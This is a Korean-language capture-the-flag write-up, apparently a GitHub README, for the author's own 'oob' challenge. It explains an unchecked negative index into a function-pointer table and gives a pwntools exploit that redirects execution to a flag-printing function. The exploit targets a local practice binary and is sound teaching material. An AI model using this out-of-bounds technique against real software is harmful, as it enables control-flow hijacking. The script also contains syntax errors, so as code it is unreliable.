 # 🐣oob🐣
![js](https://img.shields.io/badge/C-00599C?style=for-the-badge&logo=c&logoColor=white) ![js](https://img.shields.io/badge/Python-14354C?style=for-the-badge&logo=python&logoColor=white) ![js](https://img.shields.io/badge/Visual_Studio_Code-0078D4?style=for-the-badge&logo=visual%20studio%20code&logoColor=white)
## 개요
 - system out of bounds 취약점을 활용해 만든 문제입니다.
<br>

## 취약점
 - name변수를 전역변수로 지정해주며 초기화에 대한 검증을 진행하지 않았습니다.
 - 배열의 인덱스값을 사용자의 입력으로 받으며 인덱스의 음수검증을 진행하지않았습니다.

## 시나리오
 - 프로그램 실행도 분석
 - ultiate skill 함수에 접근해야 flag값을 획득하는것을 확인할수있다.
 
```
int ultimate_skill()
{
    printf("congrats!\n%s\n", getenv("flag"));
    exit(0);
}
```
 - code line 16 을 확인해보면 전역변수로 name이 선언되있는것을 확인할수있다.
```
char name[40] = "hIdd3n";
```
 - 다음 play함수에서 team1_hp==0 or team2_hp==0 일경우 게임이 종료되며 name의 값을 입력받을수있다.
```
return read(0,name,40);
```
 - skill 을 선택하는 index의 값을 사용자가 입력받는것을 볼수있고 그값은 사용자의 입력값 - 1
 - ex) skill_table[index-1] 이된다
```
 while(1)
    {
        printf("skill number : ");
        scanf("%d",&skill_select);
        getchar();
        if(skill_select<=3)
        {
            break;
        }
        printf("please select skill number 1~3\n");
    }
    skill_1 = skill_select - 1;
    printf("skill change!\n\n");
```
 - 그리고 그 인덱스값을 사용하는 배열을 확인해보면
```
void (*skillTable[3])() = {custom_skill_1,custom_skill_2,custom_skill_3,ultimate_skill};
```
 - 위 와 같이 전역변수로 포인터를 활용해 함수들의 집합이 배열인것을 확인할수있다.

## exploit
 - 위 시나리오대로 exploit 코드 작성
 - 배열은 index 1 당 8byte(배열은 주소를 참조하기때문)
 - 그럼 (skilltable_add - name_add)/8 + 1 이 인덱스의 값으로 들어가면 name에 접근가능
 - <img width="569" alt="image" src="https://github.com/ChCh0i/pwn/assets/108965611/8b9e3fbd-9db5-4f26-9306-7628422fef9f">

 - name의 값에는 ultimate_skill의 값을넣고 다음실행주소로 등록되게 지정
 - code
```
from pwn import *
inport time

context.arch = 'amd64'

p = process("./oob")
e = ELF("./oob")

ultimate_skill = e.symbols['ultimate_skill']
def func():
  p.recvuntil("Team1 : ")
  p.sendline("a")
  log.info("send TEAM1")

  p.recvuntil("Team2 : ")
  p.sendline("b")
  log.info("send TEAM2")

func()

while(1):
  p.recvuntil("select skill (y/n)? : ")
  p.sendline("n")
  sleep(1)

  data = p.recvuntil()
  if data == b"Team a win!\n" or data == b"Team b win!\n"):
    break

  data1 = p.recvuntil()
  if data1 == b"Team a win!\n" or data1 == b"Team b win!\n"):
    break

  data2 = p.recvuntil()
  if data2 == b"Team a win!\n" or data2 == b"Team b win!\n"):
    break

  data3 = p.recvuntil()
  if data3 == b"Team a win!\n" or data3 == b"Team b win!\n"):
    break

  data4 = p.recvuntil()
  if data4 == b"Team a win!\n" or data4 == b"Team b win!\n"):
    break

  data5 = p.recvuntil()
  if data5 == b"Team a win!\n" or data5 == b"Team b win!\n"):
    break

payload = p64(ultimate_skill)

p.sendline(payload)

func()

p.recvuntil("select skill (y/n)? : ")
p.sendline("y")

p.recvuntil("skill number : ")
p.sendline(str(-11))

p.interactive()
```

## 마무리
 - 해당 취약점을 보며 전역변수에대한 개념과 음수대입 등 여러 취약점을 알게된것같다.
 - 문제를 만들며 해당취약점으로 rop문제를 하나 만들어 내보면 재밌을것같으니 만들어서 올려보겠습니다.
